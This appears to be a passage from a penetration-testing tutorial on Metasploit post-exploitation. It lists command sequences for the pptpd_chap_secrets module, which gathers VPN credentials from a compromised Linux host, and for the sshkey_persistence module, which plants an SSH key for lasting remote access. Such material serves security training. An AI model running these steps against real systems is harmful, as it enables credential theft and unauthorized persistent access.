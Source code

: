 - Check for **PPTP VPN chap-secrets credentials**

```bash
search pptpd_chap_secrets
use post/linux/gather/pptpd_chap_secrets
info
# Description:
#   This module collects PPTP VPN information such as client, server, 
#   password, and IP from your target server's chap-secrets file.
set SESSION 2
run
```

![Metasploit - post/linux/gather/pptpd_chap_secrets](3-metasploitassets/image-20230422152700235.png)

- Perform **SSH Persistence**

```bash
search sshkey
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 2
run
```

![Metasploit - post/linux/manage/sshkey_persistence](3-metasploitassets/image-20230422152922123.png)

